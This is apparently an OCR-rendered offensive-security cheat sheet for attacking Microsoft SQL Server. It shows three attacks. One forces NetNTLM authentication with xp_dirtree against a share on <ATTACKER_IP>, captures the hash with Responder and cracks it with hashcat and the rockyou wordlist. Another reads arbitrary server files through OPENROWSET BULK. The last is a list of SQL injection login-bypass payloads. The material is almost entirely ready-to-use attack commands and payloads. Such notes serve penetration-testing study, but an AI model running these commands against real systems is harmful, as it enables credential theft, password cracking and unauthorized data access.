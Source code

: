 ## [MSSQL] NetNTLM

```shell-session
[!bash!]$ sudo python3 Responder.py -I eth0
```

```sql
EXEC master..xp_dirtree '\\<ATTACKER_IP>\myshare', 1, 1;
```

```shell-session
[!bash!]$ hashcat -m 5600 'jason::SQL01:bd7f162c24a39a0f:94DF80C5ABB...SNIP...000000' /usr/share/wordlists/rockyou.txt
```

## [MSSQL] File Read

```sql
-- Check if we have the permissions needed to read files
SELECT COUNT(*) FROM fn_my_permissions(NULL, 'DATABASE') WHERE permission_name = 'ADMINISTER BULK OPERATIONS' OR permission_name = 'ADMINISTER DATABASE BULK OPERATIONS';

-- Get the length of a file
SELECT LEN(BulkColumn) FROM OPENROWSET(BULK '<path>', SINGLE_CLOB) AS x

-- Get the contents of a file
SELECT BulkColumn FROM OPENROWSET(BULK '<path>', SINGLE_CLOB) AS x
```

## Sample payloads list

    admin' or '1'='1
    ' or '1'='1
    " or "1"="1
    " or "1"="1"--
    " or "1"="1"/*
    " or "1"="1"#
    " or 1=1
    " or 1=1 --
    " or 1=1 -
    " or 1=1--
    " or 1=1/*
    " or 1=1#
    " or 1=1-
    ") or "1"="1
    ") or "1"="1"--
    ") or "1"="1"/*
    ") or "1"="1"#
    ") or ("1"="1
    ") or ("1"="1"--
    ") or ("1"="1"/*
    ") or ("1"="1"#
    ) or '1`='1-
